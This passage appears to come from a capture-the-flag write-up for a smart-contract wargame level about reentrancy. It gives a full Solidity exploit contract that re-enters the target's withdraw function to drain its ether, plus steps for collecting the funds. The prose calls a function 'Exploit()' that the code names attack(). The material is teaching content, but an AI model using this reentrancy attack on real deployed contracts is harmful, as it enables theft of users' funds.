 ```javascript
> await web3.eth.getBalance(contract.address)
```

This will return the balance of the Reentrance contract. The balance of the Reentrance contract is `1000000000000000 wei`.

Now we need to write an Exploit contract.

{{< collapsible "Click to view Exploit contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import {Reentrance} from "../src/contracts/Reentrance.sol";

contract ExploitReentrancy {
    Reentrance public reentrance;
    uint8 check = 0;

    constructor(address payable _reentrance) public {
        reentrance = Reentrance(_reentrance);
    }

    function attack() public payable {
        reentrance.donate{value: 1000000000000000}(address(this));
        reentrance.withdraw(1000000000000000);
    }

    function withdraw(address _myaddress) public {
        payable(_myaddress).transfer(address(this).balance);
    }

    receive() external payable {
        if (check < 1) {
            check++;
            reentrance.withdraw(1000000000000000);
        }
    }
}

```

{{< /collapsible>}}
To completely drain the `Reentrance` contract, we need to call the `Exploit()` function. Once we call the `Exploit()`, the Reentrance contract balance will become zero, and our Exploit contract balance will become `2000000000000000 wei` or `0.002 ether`.

Lastly, don't forget to withdraw 0.002 ether from the Exploit contract to your EOA.

That's it! Now we can submit the instance.

### Key Takeaways
